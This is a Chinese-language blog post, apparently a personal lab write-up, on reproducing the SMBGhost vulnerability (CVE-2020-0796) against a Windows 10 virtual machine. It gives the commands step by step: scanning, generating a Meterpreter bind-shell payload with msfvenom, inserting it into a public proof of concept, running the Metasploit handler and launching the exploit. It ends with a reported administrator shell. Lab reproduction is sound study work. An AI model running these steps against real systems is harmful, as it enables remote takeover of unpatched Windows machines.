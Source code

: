 ```yaml
---
title: 永恒之黑（CVE-2020-0796）
date: 2023-04-21 10:10:13
categories: 技术
tags:
    - 网络安全
---
```


### 惭愧声明
稍微了解一点就会知道，CVE-2020-0796是可以拿到shell的，但是因为技术能力的限制，到现在复现bug我也没有拿到shell，只会让靶机蓝屏重启。先把博客更了，等后续搞明白了，再来更新。

### 准备工作

首先，准备一台kali和一台运行1903版本或者1909版本的windows10。

<!-- more -->

关闭windows10的防火墙和实时保护功能。

在kali上准备待会要用到的工具。

1. 启用扫描脚本

```git
  git clone https://github.com/ollypwn/SMBGhost.git
```

有人说这个脚本不准确，有时候检测超时也会报bug可利用，这个脚本也不太重要，至少对于这个实验来说。

2. 下载EXP脚本

```git
  git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

### 扫描bug

准备好扫描脚本后进入该目录，执行：

```python
  python3 scanner.py 192.168.20.135
```

"192.168.20.135"更换为自己靶机的IP。下面是效果图，显示"Vulnerable"，易受攻击的。

![bug扫描](./CVE-2020-0796/1.png)

### 准备payload

进入使用EXP脚本的SMBGhost_RCE_PoC目录，执行：

```bash
  msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=4444 -f py -o payload
```

执行之后会在SMBGhost_RCE_PoC目录下生成payload文件。接下来很重要的步骤：

1. 打开payload。

2. 打开exploit.py。

3. 将payload中“buf”字段全部替换为“USER_PAYLOAD”字段。

4. 复制替换完成的payload文件内容。

5. 粘贴到（覆盖）exploit.py文件USER_PAYLOAD区域。

![修改payload](./CVE-2020-0796/2.png)

### 开始攻击

1. 启动```msfconsole```。

2. 使用模块。

3. 设置有效载荷和相关参数。

依次执行以下命令：

```bash
  msfconsole -q
  use exploit/multi/handler
  set payload windows/x64/meterpreter/bind_tcp
  set lport 4444
  set rhost 192.168.20.135
  run
```

![攻击](./CVE-2020-0796/3.png)

再打开一个终端，进入SMBGhost_RCE_PoC目录，运行：

```bash
  python3 exploit.py -ip 192.168.20.135
```

![运行 exploit.py](./CVE-2020-0796/4.png)

出现这步后按下回车。

然后回到win10，发现win10蓝屏正在重启。

![win10重启](./CVE-2020-0796/5.png)

如果完成的彻底，```msfconsole```终端会弹出meterpreter，但是很遗憾，我没有拿到靶机的shell。

![拿到shell](./CVE-2020-0796/6.png)

---

手动分割线

---

### 玄学排错

接着上次的来说，上次是没有拿到shell的。经过一些网上拍错和别的同学的交流，得到了一些启发，最终成功拿到了shell。其中有很多问题也是很玄学的。

1. 把靶机的内存设置大一点，我直接给到了8G。

2. kali和靶机的连通最好不要使用NAT连接，如果使用NAT连接，建议把宿主机的防火墙和病毒保护也关闭。

3. 在靶机中要在控制面板-程序-启用或关闭windows的功能-打开SMB开关，然后重启。

4. 在进行paylod-code生成的时候，尽量不要使用原有的4444端口（我用的9876）。

5. 更换了windows的镜像，重新安装了一个虚拟机，镜像保存在了[百度云盘](https://pan.baidu.com/s/1M1GvWoMcJc5nZA_tS4tang)里，提取码：0731。

### 成功的尝试

生成payload-code。

![](./CVE-2020-0796/9.png)

然后替换exploit.py文件中user_payload字段。

![](./CVE-2020-0796/10.png)

前面的操作还是一样，进入工具，使用模块，设置payload。

![](./CVE-2020-0796/7.png)

设置攻击参数。

![](./CVE-2020-0796/8.png)

执行run命令并在此等候。

![](./CVE-2020-0796/11.png)

然后再开一个终端

![](./CVE-2020-0796/12.png)

成功拿到shell，是管理员的权限没有错。

![](./CVE-2020-0796/13.png)